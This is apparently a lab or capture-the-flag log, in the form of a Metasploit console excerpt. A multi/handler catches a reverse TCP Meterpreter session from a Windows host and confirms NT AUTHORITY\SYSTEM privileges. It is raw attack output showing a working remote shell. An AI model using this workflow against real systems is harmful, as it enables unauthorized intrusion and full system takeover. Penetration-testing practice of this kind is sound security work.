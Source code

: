 ```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.2:4433 
[*] Sending stage (175174 bytes) to 10.0.27.39
[*] Meterpreter session 2 opened (10.10.16.2:4433 -> 10.0.27.39:49343) at 2023-07-04 07:46:11 +0530

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
Background session 2? [y/N]  
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN-OMCNBKR66MN  10.10.16.2:4433 -> 10.0.27.39:49343 (10.0.27.39)
```